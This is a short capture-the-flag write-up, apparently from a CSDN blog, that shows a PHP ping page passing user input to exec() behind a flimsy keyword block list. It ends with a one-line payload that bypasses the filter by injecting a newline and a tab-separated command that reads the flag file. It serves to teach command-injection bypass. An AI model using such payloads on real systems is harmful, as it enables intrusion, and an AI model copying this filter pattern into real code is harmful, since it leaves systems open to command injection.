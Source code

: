 ```prism
<?php
function validate_input($input) {
    $invalid_chars = array("sh","bash","chown"," ", "chmod", "echo", "+", "&",";", "|", ">", "<", "`", "\\", "\"", "'", "(", ")", "{", "}", "[", "]");
    foreach ($invalid_chars as $invalid_char) {
        if (strpos($input, $invalid_char) !== false) {
            return false;
        }
    }

    if (preg_match("/.*f.*l.*a.*g.*/", $input)) {
        return false;
    }

    return true;
}

function ping($ip_address) {
    if (!validate_input($ip_address)) {
        return "Error: Invalid input.";
    }

    $cmd = "ping -c 2 " .$ip_address;
    exec($cmd, $output, $return_code);


    if ($return_code !== 0) {
        echo("Error: Failed to execute command.");
    }

    return implode("\n", $output);
}

if (isset($_POST['ip'])) {
    $ip = $_POST['ip'];
    $ping_result = ping($ip);
    echo nl2br($ping_result); // 输出ping结果并保留换行
}
?>

```

![](https://csdnimg.cn/release/blogv2/dist/pc/img/newCodeMoreBlack.png)

payload：

```has-numbering
ip=127.0.0.1%0acat%09/f*

```


